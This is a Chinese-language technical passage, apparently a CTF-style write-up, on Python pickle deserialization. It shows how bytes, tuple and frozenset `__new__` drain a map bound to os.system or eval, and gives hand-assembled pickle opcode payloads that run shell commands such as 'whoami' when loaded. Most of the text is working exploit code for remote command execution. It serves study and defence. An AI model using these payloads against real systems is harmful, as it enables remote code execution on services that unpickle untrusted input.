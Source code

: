 利用 payload 如下：bytes 类和 tuple 类的 `__new__` 方法可以接收一个迭代器对象。若此时我们使用 map 去构造一个绑定了危险函数的迭代器，在调用`__new__`时，就会触发命令执行。

```py
bytes.__new__(bytes, map.__new__(map, eval, ['print(1)']))
bytes.__new__(bytes, map.__new__(map, os.system, ['ls']))
```

通过上面的方法可以在仅使用内置类的情况下完成 RCE。
```py
a = map(os.system,['ls'])
```

builtins 中一共有三个类可以满足这个条件：bytes、tuple、frozenset
```py
>>> a = map(os.system,['ls'])
>>> frozenset.__new__(frozenset,a)
>>> a = map(os.system,['ls'])
>>> bytes.__new__(bytes,a)
>>> a = map(os.system,['ls'])
>>> tuple.__new__(tuple,a)
```

后面的 map 也可以采用 `__new__` 来构建：
```py
bytes.__new__(bytes,map.__new__(map,os.system,'whoami'))
```

接着就可以构造反序列化 payload：

首先我们需要构建一个 map 对象。
```py
p = PROTO + b'\x02' + \
        GLOBAL + b'builtins\nmap\n' + \
            GLOBAL + b'os\nsystem\n' + \
                MARK + \
                UNICODE + b'whoami\n' + \
                LIST + \
            TUPLE2 + \
        NEWOBJ + \
    STOP

pickletools.dis(p)
a = loads(p)
print(a)
# <map object at 0x7fc616fe7310>
```
获取到这个 map 之后，导入 bytes，然后调用 NEWOBJ：
```py
p = PROTO + b'\x02' + \
    GLOBAL + b'builtins\nbytes\n' + \
        GLOBAL + b'builtins\nmap\n' + \
            GLOBAL + b'os\nsystem\n' + \
                MARK + \
                UNICODE + b'whoami\n' + \
                LIST + \
            TUPLE2 + \
        NEWOBJ + \
    TUPLE1 + \
    NEWOBJ + \
    STOP
```
